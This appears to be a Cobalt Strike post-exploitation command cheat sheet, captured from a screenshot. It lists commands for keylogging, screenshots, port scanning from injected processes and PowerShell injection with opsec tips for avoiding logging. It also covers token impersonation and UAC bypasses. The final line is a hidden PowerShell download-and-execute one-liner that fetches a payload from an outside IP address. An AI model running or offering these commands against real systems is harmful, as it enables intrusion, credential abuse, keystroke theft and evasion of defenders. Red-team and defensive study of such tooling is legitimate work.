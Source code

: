 # Screenshots
printscreen    # Take a single screenshot via PrintScr method
screenshot     # Take a single screenshot
screenwatch    # Take periodic screenshots of desktop
## Go to View -> Screenshots to see them

# keylogger
keylogger [pid] [x86|x64]
## View > Keystrokes to see the keys pressed

# portscan
portscan [pid] [arch] [targets] [ports] [arp|icmp|none] [max connections] # Inject portscan action inside another process
portscan [targets] [ports] [arp|icmp|none] [max connections]

# Powershell
## Import Powershell module
powershell-import C:\path\to\PowerView.ps1
powershell-import /root/Tools/PowerSploit/Privesc/PowerUp.ps1
powershell <just write powershell cmd here> # This uses the highest supported powershell version (not oppsec)
powerpick <cmdlet> <args> # This creates a sacrificial process specified by spawnto, and injects UnmanagedPowerShell into it for better opsec (not logging)
powerpick Invoke-PrivescAudit | fl
psinject <pid> <arch> <commandlet> <arguments> # This injects UnmanagedPowerShell into the specified process to run the PowerShell cmdlet.


# User impersonation
## Token generation with creds
make_token [DOMAIN\user] [password] #Create token to impersonate a user in the network
ls \\computer_name\c$ # Try to use generated token to access C$ in a computer
rev2self # Stop using token generated with make_token
## The use of make_token generates event 4624: An account was successfully logged on.  This event is very common in a Windows domain, but can be narrowed down by filtering on the Logon Type.  As mentioned above, it uses LOGON32_LOGON_NEW_CREDENTIALS which is type 9.

# UAC Bypass
elevate svc-exe <listener>
elevate uac-token-duplication <listener>
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
